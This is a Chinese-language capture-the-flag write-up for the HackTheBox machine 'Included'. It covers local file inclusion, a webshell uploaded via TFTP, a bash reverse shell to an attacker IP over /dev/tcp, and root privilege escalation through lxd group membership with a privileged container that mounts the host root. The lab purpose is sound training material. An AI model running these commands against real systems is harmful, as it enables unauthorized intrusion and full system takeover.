 # 7x16HTB系列——[Included]文件包含漏洞

## 一、信息收集

1. 端口扫描，发现开放有tcp协议的53、80端口，再扫描一下udp协议的端口，开放有68、69、17331、45247端口

   ![1.png](img/HTB/Included/1.png)

   ![2.png](img/HTB/Included/2.png)

2. 80端口开放了一个web服务，udp协议的69端口开放有一个tftp服务，先访问一下web服务

   ![3.png](img/HTB/Included/3.png)

3. 网站的url存在?file=home.php的形式，如果可能存在漏洞的话，那这就是典型的文件包含，尝试一下包含/etc/passwd

   ![4.png](img/HTB/Included/4.png)

4. 包含成功，网站存在文件包含漏洞，可以看到tftp对应的目录是/var/lib/tftpboot

## 二、getshell

1. 利用之前发现的udp 69端口的tftp写入一个webshell

   ![5.png](img/HTB/Included/5.png)

2. 用蚁剑尝试连接

   ![6.png](img/HTB/Included/6.png)

3. 成功获得webshell，并在/home/mike目录下找到user.txt

   ![7.png](img/HTB/Included/7.png)

## 三、权限提升

1. 在网站目录下发现.htaccess和.htpasswd两个文件，cat查看文件内容

   ![8.png](img/HTB/Included/8.png)

2. 在.htpasswd发现用户mike的密码，，由于webshell下很多命令执行不了，所以反弹一个shell到kali上

   ```shell
   bash -c 'exec bash -i &>/dev/tcp/10.10.16.9/4444 <&1'
   ```

   ![9.png](img/HTB/Included/9.png)

3. 然后切换到用户mike，mike不是su用户，无法使用sudo -l，但mike用户属于lxd用户组，lxd用户组具有高权限，可以通过创建任意镜像，并将当前系统根目录挂载到镜像mnt目录下，然后通过chroot命令即可获取当前系统的root权限

   ![10.png](img/HTB/Included/10.png)

   ![11.png](img/HTB/Included/11.png)

4. 创建一个alpine镜像，将该镜像导入到lxd中

   - 安装程序包

     ```shell
     sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
     ```

   - 下载、编译工具

     ```shell
     git clone https://github.com/lxc/distrobuilder
     cd distrobuilder
     make
     ```

   - 创建alpine镜像文件

     ``` shell
     mkdir -p $HOME/ContainerImages/alpine/
     cd $HOME/ContainerImages/alpine/
     wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
     sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
     ```

   - 完成后会生成三个文件

     ![11.png](img/HTB/Included/12.png)

5. 在kali上开启一个web服务，然后通过这个web服务将上面生成的三个文件上传到目标主机上

   ![13.png](img/HTB/Included/13.png)

6. 接着创建alpine镜像

   ```shell
   lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
   lxc image list
   ```

   ![14.png](img/HTB/Included/14.png)

7. 将/root挂载到alpine镜像中

   ```shell
   lxc init alpine privesc -c security.privileged=true
   lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
   ```

   ![15.png](img/HTB/Included/15.png)

8. 与容器进行交互

   ```shell
   lxc start privesc
   lxc exec privesc /bin/sh
   ```

   ![16.png](img/HTB/Included/16.png)

9. 成功获取root权限

   ![17.png](img/HTB/Included/17.png)

10. 在/mnt/root/root下找到root.txt

    ![18.png](img/HTB/Included/18.png)

    

